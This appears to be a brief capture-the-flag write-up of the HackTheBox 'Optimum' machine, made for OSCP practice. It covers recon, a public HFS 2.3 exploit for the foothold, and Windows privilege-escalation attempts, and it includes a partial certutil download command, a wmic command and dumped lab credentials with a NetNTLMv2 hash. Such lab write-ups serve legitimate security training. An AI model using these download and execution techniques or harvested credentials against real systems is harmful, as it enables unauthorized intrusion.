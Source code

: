 Name: Optimum
Date:  26/10/2022
Difficulty:  Easy
Goals:  OSCP Prep
Learnt:
- wesng might just be a privesc rabbit hole of doom

## Recon

![ping](HackTheBox/Retired-Machines/Optimum/Screenshots/ping.png)

Firstly reviewing nmap it found HFS 2.3 then quick `searchsploit HFS 2.3` found the below
![](nmaptosearchsploit.png)

## Exploit && Foothold

With some minor configurations the outcome of this script as show below, also it is not slow just requires an press of the  `[RETURN/ENTER]` key to drop into the shell
![](foothold.png)

The kostas user has no token PrivEscs

![900](kostas.png)
      
## PrivEsc

![](tasklistsvcs.png)

[[Optimum-Systeminfo]]

Trusty LOLBAS
```powershell
certutil -urlcache -split -f http://
```

WinPEAS found:
![1000](itsrightthere.png)

![](icaclshfsexe.png)

![](addkostas.png)
But it failed. Returning to this box. This shell is awesome, I cant execute anything. But by the power of red teaming off the land! Use wmic:

```shell-session
wmic.exe process call create C:\users\kostas\desktop
```

![](powerofwmic.png)

```
    Some AutoLogon credentials were found
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*

kostas::OPTIMUM:1122334455667788:3b3d8bac1f1ab5d127d918b5b40bd363:0101000000000000137b0de881f2d8012d0cb1d6220e22e6000000000800300030000000000000000000000000200000f4b900b0ef6cbf93c4855021fbc634aa7ef004d983943a7377c12abf28167baf0a00100000000000000000000000000000000000090000000000000000000000
```

![](betterwinpeas1.png)

![](vmwareisddangerous.png)